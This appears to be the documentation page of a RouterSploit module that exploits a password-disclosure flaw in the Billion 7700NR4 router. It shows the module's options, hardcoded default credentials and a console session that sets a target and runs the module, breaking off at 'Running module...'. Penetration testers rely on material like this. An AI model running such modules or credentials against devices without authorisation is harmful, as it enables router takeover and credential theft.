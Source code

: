 # Billion 7700NR4 Password Disclosure

## Description
Exploits Billion 7700NR4 password disclosure vulnerability that allows to fetch credentials for admin account

## Authors
* R-73eN # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/40472/](https://www.exploit-db.com/exploits/40472/)

## Vulnerable devices
* Billion 7700NR4

## Usage
```
rsf > use exploits/billion/7700nr4_password_disclosure
rsf (Billion 7700NR4 Password Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   def_user     user                 Hardcoded username
   def_pass     user                 Hardcoded password


rsf (Billion 7700NR4 Password Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Billion 7700NR4 Password Disclosure) > run
[*] Running module...
```
